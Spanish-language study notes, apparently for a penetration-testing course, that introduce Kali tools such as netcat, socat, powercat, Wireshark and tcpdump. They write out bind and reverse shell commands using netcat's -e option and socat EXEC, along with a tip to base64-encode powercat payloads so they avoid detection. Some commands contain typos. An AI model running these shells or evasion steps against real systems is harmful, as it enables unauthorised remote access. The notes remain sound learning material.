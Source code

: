 # 2. HERRAMIENTAS MÁS IMPORTANTES DE KALI

## 2.1 Netcat
Lee y/o escribe datos de un ordenador a otro usando los puertos UDP y TCP.
        nc -n -v 192.168.1.199, de donde

        -n:  Do not do any DNS or service lookups on any specified addresses,
             hostnames or ports.
        -v:  Produce more detailed output

        nc -nvlp <puerto> : creamos un listener en el puerto indicado

Como curiosidad existe una herramienta llamada rdesktop, que se utiliza para conectarnos de forma remota a un sistema.

### 2.2 Transferir archivos desde un ordenador a otro

Se ejecuta netcat en ambos lados.
- En el receptor, tenemos el listener con 

        nc -nvlp <puerto>  > <nombre del archivo>

- En el que envía:
        
        nc -nv <ip destino> <puerto>  <  <ruta del archivo a compartir>

### 2.3 Redirección con Netcat
Para ello se utiliza el comando 

        nc -e <nombre de fichero>

Existen dos posibilidades: 
1. Realzar un bind desde el que B puede acceder de forma remota a A, siendo este el que ejecuta el comando mencionado.

        A: nc -nlvp <puerto> -e cmd.exe
        B: nc -nv <ip de A>  <puerto>

2. Realizar una shell inversa, en la cual B le propociona a A un acceso a su máquina.

        A: nc -nlvp <puerto> , para escuchar una shell entrante
        B: nc -nc -nv <ip de A>  <puerto> -e /bin/bash


## 2.2 Socat
Muy similar a Netcat
- El que transfiere:
        
        socat - (transferir datos desde estándar i/o) TCP4:<IP del otro disp>:<puerto>
        sudo socat
- El que escucha:

        sudo socat TCP4-LISTENER:<puerto> STDOUT

- Para transferir ficheros, se define:

        sudo socat TCP4-LISTENER:<puerto>, fork file:<fichero> 

- La shell inversa:
    1. El que escucha debe añadir -d -d para añadir robustez.
    2. El que proporciona la shell, deberá añadir EXEC: bin/bash


## 2.3 Poweshell
Un tanto más compleja que las dos anteriores. Los comandos son mucho más complejos y no combiene recordar todos los comandos.

Cada vez que queramos realizar una shell inversa o algo por el estilo, consultamos los comandos por internet.

Powershell también contiene su propia versión de netcat: **Powercat**. Su funcionamiento es muy parecido al de netcat.

Para crear una Bind Shell (esta vez desde powershell), deberemos incluir -l de listener.

Standalone Payloads: Los payloads ejecutables son un set de instrucciones de Powershell, así como el apartado de script de powercat en el cual se especifican el conjunto de acciones que el usuario quiere realizar.

- Se especifica con el comando -g > fichero.ps1 
- En caso de querer cifrarlo en base64 para que no sea detectado, se sustituye -g por -ge en la sentencia anterior


## 2.4 Wireshark 
Con net y la IP, además de la interfaz queremos monitorizar. Es una herramienta excelente para capturar el tráfico que deseemos.

## 2.5 Tcpdump
Se trata de una herramienta ampliamente utilizada. Es un sniffer basado en texto, que puede capturar y analizar paquetes así como también analizar paquetes ya capturados.

        sudo tcpdump -r fichero.pcap
        sudo tcpdump -n <cosas a especificar> -r  ...
